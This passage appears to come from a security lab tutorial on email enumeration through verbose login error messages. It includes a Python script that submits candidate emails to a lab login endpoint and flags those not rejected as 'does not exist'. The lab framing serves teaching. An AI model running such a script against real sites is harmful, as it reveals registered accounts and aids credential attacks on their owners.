 In this HackerOne [report](https://hackerone.com/reports/1166054), the attacker was able to enumerate users using the website's Forget Password function. Similarly, we can also enumerate emails in login forms. For example, navigate to [http://enum.thm/labs/verbose_login/](http://enum.thm/labs/verbose_login/)[](http://enum.thm/labs/verbose_login/) and put any email address in the Email input field.

When you input an invalid email, the website will respond with "Email does not exist." indicating that the email has not been registered yet.

```
whoami@thm.com : 1234

Email does not exist
```

### Automation

Below is a Python script that will check for valid emails in the target web app. Save the code below as **script.py**.

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

```